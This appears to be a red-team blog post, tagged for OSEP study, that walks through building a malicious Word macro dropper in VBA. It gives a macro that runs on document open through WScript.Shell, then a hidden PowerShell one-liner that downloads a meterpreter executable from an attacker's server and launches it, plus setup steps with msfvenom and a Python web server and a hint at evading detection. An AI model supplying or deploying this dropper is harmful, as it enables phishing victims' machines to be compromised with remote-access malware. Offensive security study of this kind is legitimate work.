

+++
title = 'Dropper Using VBA'
date = 2024-08-23T18:44:32+05:00
draft = false
tags = ["VBA", "Social Engineering", "OSEP"]
categories = ["Phishing", "Red Team"]
+++

In this post we will talk about how to create a dropper using VBA and some detection stuff.

First off, what is VBA and why it is useful.\
Well VBA stands for Visual Basic for Applications. This language very useful for creation some macros for the Microsoft Office tools. It has very interesting syntax and datatypes.

To start coding in VBA we need to create a document, which can support macros. We can not use document types, which contain 'x'. The best options are .doc (doc 97-2003 years) or .docm whic support macros

You may open Word and create a blank document or create a document in whatever format then just save in two types above written. Then go to View -> Macros -> View Macros.
Here we need to choose "Macros in" the name of the document or current document. In my case it is temp.docx (document)


\
Then write the name of the Macro. We can use just MyMacro and we have the VBA Editor.


\
Now let's talk abut what is Sub and how it works. 

A sub can be described as a small program within the VBA Editor that performs a specific action in Excel. It is used to break large pieces of code into smaller parts that can be easily managed.
VBA Sub is very similar to function type, but in it is not function.
The difference between a Sub and Function are follows:
> **Sub**
- A sub performs a task but does not return a value like void type;
- Subs can be recaalled from anywhere in the program and in multiple types;
- Subs cannot be used directly in spreadsheets as formulas;
- Users must insert a value in the desired call before getting the result of the sub;
- Excel users can execute a VBA sub.

> **Function**
- A function returns a value of the tasks performed.
- Functions are called by a variable.
- Functions are used directly in spreadsheets as formulas.
- Functions can be used to perform repetitive tasks and return a value.
- Excel users cannot execute VBA functions.

\
After understanding what is sub we can start coding :)
To automatically run the script we can use Subs AutoOpen and Document_Open.



\
The idea of the dropper is download a malicious file from the hacker's server and execute it in the victim's system. We can use WScript and its method Exec to execute cmd or powershell command.

**About Wscript**

Windows Script Host provides an environment in which users can execute scripts in various languages that use various object models to perform tasks.

We need to use the Set keyword to set a WScript.Shell object, then using that object calling Exec method to execute a command.


```vba
Sub MyMacro()
    Set shell_object = CreateObject("WScript.Shell")
    shell_object.Exec ("calc.exe")
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub
```

\
But before we need to save the macro using short key Ctrl + S. If you used not .docm or .doc file format, you will have this alert message.


\
We need to click No and choose the type, which support macros. In my case it will be .doc file.


\
After that close the document and reopen the .doc version. After opening the document you will see the alert about Macro.


\
Click to Enable Content and wait execution of the macro.


\
As you can see the macro successfully executed and called calc.exe

That is good, but what about downloading and executing files from the hacker's server. So we can use powershell, System.WebClient object and its DownloadFile method to download and save the file. Then Start-Process command to start the process.

Powershell code, to download and save the met.exe file.
```powershell
powershell.exe -window-style hidden (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.83/met.exe', 'C:\Windows\Tasks\met.exe')
```

\
Then using Start-Process we can execute the met.exe:
```powershell
Start-Process C:\Windows\Tasks\met.exe
```

\
Combine them together:
```powershell
powershell.exe -window-style hidden (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.83/met.exe', 'C:\Windows\Tasks\met.exe'); Start-Process C:\Windows\Tasks\met.exe
```
\
Before saving and opening the document create a malicious file using msfvenom or whatever framework/c2. In my case it is just meterpreter cmd spawner.


\
Then open python http server.
Also before generating a malicious file understand in which process arch the word running, It maybe x32 or x64. In my case it is x64 process.


\
After opening document we can see that from victim get request to download met.exe file.


\
In the Victim's machine spawned cmd.exe (btw my defender is not turned on, so that's why cmd spawned XD).


\
That kind of attack is detectable, but using some custom encryption and using C2 shellcodes might work.

In the next part we will create VBA code, which will use Win32 APIs.